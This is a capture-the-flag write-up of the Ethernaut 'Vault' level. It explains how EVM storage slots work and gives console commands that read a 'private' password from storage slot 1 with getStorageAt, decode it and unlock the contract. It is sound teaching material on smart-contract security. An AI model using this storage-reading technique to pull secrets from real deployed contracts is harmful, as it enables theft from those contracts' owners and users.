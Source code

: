 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel8.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challange's message.

>Unlock the vault to pass the level!

We have an contract which has type of bool variable called **locked** and type of **bytes** variable named **_password_** that defined in constructor(). What is more, there is **unlock()** function which checks _password we entered. If we entered correct password, unlocked will be **false** so we will beat this level.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<img src="https://programtheblockchain.com/storage/storage.png">

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at slot 0. 
+ ```b``` is stored at slot 1.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png">

## Accessing Private Variabes In Storage



# Subverting

```shell
await contract.locked()
true
```

```shell
var pass = await web3.eth.getStorageAt(contract.address,1,console.log)
```

```shell
await web3.utils.hexToUtf8(pass)
'A very strong secret password :)'
```
```shell
await contract.unlock(pass)
```
```shell
await contract.locked()
false
```

**_by wasny0ps_**
